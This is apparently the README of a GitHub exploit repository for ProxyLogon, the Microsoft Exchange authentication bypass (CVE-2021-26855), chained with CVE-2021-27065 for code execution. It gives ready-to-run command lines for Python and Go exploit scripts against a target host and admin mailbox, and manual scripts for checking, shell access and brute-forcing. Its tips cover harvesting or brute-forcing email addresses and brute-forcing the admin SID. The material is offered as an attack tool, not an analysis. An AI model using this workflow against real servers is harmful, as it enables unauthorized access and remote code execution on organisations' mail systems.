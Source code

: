 # ProxyLogon
ProxyLogon is the formally generic name for CVE-2021-26855, a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the authentication and impersonating as the admin. We have also chained this bug with another post-auth arbitrary-file-write vulnerability, CVE-2021-27065, to get code execution.


## ProxyLogon For Python3
```python
usage:
    sudo python3 proxylogon.py --host=target.com --mail=admin@target.com
    sudo python3 proxylogon.py --host=target.com --mails=./mails.txt
```


## ProxyLogon For Go
```go
usage:
    go run proxylogon.go -u target.com -e admin@target.com
```



#### Tips:
1) recon target to find valid email address
2) if you do not find any email, use bruteforce target with your email file.
3) in some target automation exploit not work, you should bruteforce SID and replace in SID=500

### manual pentest 
```python
sudo python2 /manual/check.py 
sudo python2 /manual/shell.py 
sudo python2 /manual/brute.py 
```

#### references
* [proxylogon](https://proxylogon.com/)
